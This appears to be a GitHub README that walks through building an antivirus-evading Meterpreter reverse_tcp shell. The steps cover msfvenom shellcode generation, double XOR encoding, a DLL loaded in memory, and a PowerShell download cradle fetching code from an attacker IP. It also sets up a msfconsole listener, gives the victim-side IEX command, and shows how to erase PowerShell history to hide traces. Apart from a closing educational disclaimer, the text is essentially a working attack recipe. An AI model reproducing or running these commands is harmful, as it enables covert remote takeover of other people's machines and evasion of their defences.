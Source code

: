 # RS_meterpreter_bypass
Get a Meterpreter reverse_tcp shell and bypass AV.
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.
        
- Generate your payload **#1**
- XOR encode your shell script  **#2**
- Create a DLL to inject into memory **#3**
- Create a Powershell script to download and execute the DLL in memory **#4**

# How to use
**#1** Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

**#2** Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version

Execute the exe with:
        
        .\XOR_encoder.exe

Take note of the output, it is your new double-encoded payload.

We have now a double XOR-encoded shellcode.

**#3** To actually bypass AV we will need a .dll to run in memory, not in disk. 

We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.

The output will be ClassLibrary1.dll, the payload.

Now we have the .dll, we can host it in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

        service apache2 start

**#4** Now we just need to execute the .dll in memory, so we do a .ps1 script to do that, we can name it *download_cradle.ps1* also also this needs to be placed in /var/www/html:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function of [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs).

## Victim machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:

        > msfconsole
        > use exploit/multi/handler
        > set payload windows/x64/meterpreter/reverse_tcp
        > set LHOST 192.168.1.102
        > set LPORT 4444
        > exploit

Or we can use this shortcut:

        msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.102; set lport 4444; set ExitOnSession false; exploit -j"

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Useful informations
Powershell history can be found at:

        C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Or with the command...
        
        (Get-PSReadlineOption).HistorySavePath
        
You can delete it with:
        
        Remove-Item -path C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
        
This simple command will do everything:

         Remove-Item -path (Get-PSReadlineOption).HistorySavePath
    
The system will recreate the file as soon as we execute a new command, no worries.

# Credits
- purpl3f0x

# Disclaimer
All the techniques provided here are solely meant for educational purposes only. All of the techniques taught here are only meant to be used in a closed laboratory environment or in consent with a second party.
